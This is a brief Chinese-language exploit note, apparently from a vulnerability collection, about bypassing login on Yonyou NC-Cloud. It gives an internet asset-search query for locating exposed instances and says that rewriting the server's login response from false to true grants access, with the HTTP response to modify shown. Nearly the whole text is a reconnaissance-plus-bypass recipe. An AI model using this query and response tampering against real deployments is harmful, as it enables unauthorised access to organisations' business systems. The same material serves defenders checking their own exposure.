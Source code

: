 资产搜索：

app="用友-NC-Cloud"   或者是app="用友-NC-Cloud" && server=="Apache-Coyote/1.1"

POST数据包修改返回包 false改成ture就可以绕过登陆

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Date: Thu, 10 Aug 2023 20:38:25 GMT
Connection: close
Content-Length: 17

{"login":"false"}
```

